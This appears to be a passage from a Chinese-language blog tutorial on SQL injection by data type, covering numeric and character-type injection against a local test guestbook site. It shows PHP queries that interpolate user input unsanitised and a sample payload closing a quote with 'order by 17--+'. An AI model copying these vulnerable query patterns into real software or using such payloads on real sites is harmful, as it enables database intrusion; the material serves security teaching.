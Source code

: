 ![1645146028721-a80a6972-767d-4411-8f3e-0588a72f50e3.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132644617-173067773.png)

```plain
#知识点：
1、数据表现格式类型注入
2、字符转义绕过-宽字节注入
3、数字&字符&搜索&编码&加密等

#参考资料：
https://www.cnblogs.com/bmjoker/p/9326258.html
扫描，利用工具等都不会自动判断数据类型，格式等，所以即使有漏洞也测不出来，具体还是需要人工的去观察，进行工具的修改或加载插件再次探针才可以。


#SQL注入课程体系：
1.数据库注入    - access mysql mssql oracle mongodb postgresql等
2.数据类型注入 - 数字型 字符型 搜索型 加密型(base64 json)等
3.提交方式注入 - get post cookie http头等 
4.查询方式注入 - 查询 增加 删除 更新 堆叠等
5.复杂注入利用 - 二次注入 dnslog注入 绕过bypass等
```

- 本地源码-数字&字符&搜索&编码&JSON

数字

```plain
数字型 0-9
SQL语句：$sql="select * from sy_guestbook where id=$i";
http://127.0.0.1:8081/web/news.php?id=1
不需要单引号，也可以正常运行。
在数据库中执行：select * from sy_guestbook where id=1;
不用加引号，能正常运行，所以有一些数字型的注入点，不用加引号，就是不用考虑符号的闭合。
```

![1645148271844-90d3415a-9f2b-4692-b736-e45fd574f523.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132658943-1178045758.png)

字符

```plain
字符型    a-z 中文，标点符号
SQL语句：$sql="select * from sy_guestbook where gTpl='$g'";
http://127.0.0.1:8081/web/news.php?gtpl=simple
需要单引号或者双引号 ，如果不用的话，那就回报错。会以为当成函数或者参数去执行。所以必须要用到引号，需要考虑符号的闭合，才能正确去执行SQL才能正常执行。
如果这样执行：select * from sy_guestbook where gName=PHP开源多功能留言板-随意留言板官方站;
正确的执行方法：select * from sy_guestbook where gName='PHP开源多功能留言板-随意留言板官方站';
```

![1645148860541-e6d7435d-1644-4bac-bd01-0528d928bff5.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132659085-1185713646.png)

![1645148889207-adc5648b-52bf-4d47-aba8-b2bbc2759144.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912132659317-1902351315.png)

```plain
如何构造payload的呢？
http://127.0.0.1:8081/web/news.php?gtpl=simple' order by 17--+

原始的SQL语句：
select * from sy_guestbook where gTpl='$g'
传入的值
simple' order by 17--+
代入数据SQL语句执行：
select * from sy_guestbook where gTpl='simple' order by 17--+'
这样才是正确的SQL注入payload
```
